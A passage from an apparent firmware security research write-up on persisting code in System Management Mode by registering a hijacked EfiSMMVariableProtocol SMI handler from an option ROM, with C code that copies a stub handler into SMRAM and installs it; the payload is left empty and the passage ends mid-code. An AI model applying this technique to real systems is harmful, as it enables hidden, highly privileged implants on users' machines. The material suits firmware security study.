 The next part of testing focuses on persisting code within SMM. One goal I had was to reliably trigger/execute code during OS execution without being root.

## Overwrite EfiSMMVariableProtocol SMI

Our target is the `EfiSMMVariableProtocol` handler. This can be triggered by an unprivileged process `open`ing an `efivars` sysfs node.

Create an example stub that we can later fill in (outside the scope of this article) with our payload code.

```c
EFI_STATUS
EFIAPI
HijackedVariableHandler(
  IN     EFI_HANDLE                   DispatchHandle,
  IN     CONST VOID                   *RegisterContext,
  IN OUT VOID                         *CommBuffer,
  IN OUT UINTN                        *CommBufferSize
  )
{
  // Add your code here.

  // Return interrupt source pending to 'fall-through'.
  return EFI_WARN_INTERRUPT_SOURCE_PENDING;
}
```

Within `OptionROMSmmEntryPoint` lets install our handler.

The tricky part here is our handler will not replace the existing SMI handler but rather add to a list of handlers. When an SMI is triggered a list of handler methods is executed in the order they were installed, and only under certain conditions (their return code) a secondary or tertiary handler is attempted. We cannot cause the existing `EfiSMMVariableProtocol` handler to fail so we must uninstall and reinstall.

The final minor complication is our code right now is located outside of SMM. When SMM is locked, if it attempts to execute outside of SMRAM, a fault will occur. From a security/safety perspective this is ideal since we want to protect SMM's execution.

```c
  EFI_HANDLE Handle;
  VOID* handler;

  // We need to move our code into SMM.
  gSmst->SmmAllocatePool(EfiRuntimeServicesCode, 0x1000, &handler);
  gBS->CopyMem((void*)handler, HijackedVariableHandler, 0x1000);

  EFI_SMM_HANDLER_ENTRY_POINT2 HijackedVariableHandlerInSMM =
    (EFI_SMM_HANDLER_ENTRY_POINT2)handler;

  // Install our handler as secondary.
  Status = gSmst->SmiHandlerRegister(
    HijackedVariableHandlerInSMM,
    &gEfiSmmVariableProtocolGuid,
    &Handle
  );
  if (EFI_ERROR(Status)) {
    // Should free too.
    return;
  }

  SMI_HANDLER *SmiHandler = (SMI_HANDLER *)Handle;
  LIST_ENTRY *List = &SmiHandler->SmiEntry->SmiHandlers;
  LIST_ENTRY *Link = List->ForwardLink;

  // The 'real' or existing SMI handler.
```